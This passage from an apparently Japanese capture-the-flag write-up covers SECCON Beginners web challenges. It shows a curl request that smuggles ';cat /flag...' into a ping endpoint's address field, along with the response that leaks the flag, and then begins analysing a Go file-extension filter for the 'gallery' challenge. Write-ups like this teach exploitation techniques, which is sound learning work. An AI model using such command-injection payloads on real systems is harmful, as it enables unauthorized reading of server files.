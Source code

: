 `curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H 'Content-Type: application/json' --data-raw '{"address":"127.0.0.1;cat /flag_A74FIBkN9sELAjOc.txt"}'`

```json
{
   "result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.134 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packets received, 0% packet loss\nround-trip min/avg/max = 0.134/0.134/0.134 ms\nctf4b{al1_0vers_4re_i1l}\n"
}
```

`ctf4b{al1_0vers_4re_i1l}`

### gallery

いくつかの写真を見ることができるWebサイトのようだ。

![gallery-1](./gallery-1.png)

URLで`https://gallery.quals.beginners.seccon.jp/?file_extension=jpeg`のように`file_extension`を指定すると、そのファイルのみを表示することができる。

該当プログラムを見るとこのようになっている。

```go
fileExtension := strings.ReplaceAll(r.URL.Query().Get("file_extension"), ".", "")
fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
if fileExtension == "" {
    fileExtension = "jpeg"
}
...
for _, file := range files {
    if !strings.Contains(file.Name(), fileExtension) {
        continue
    }
    res = append(res, file.Name())
}
```
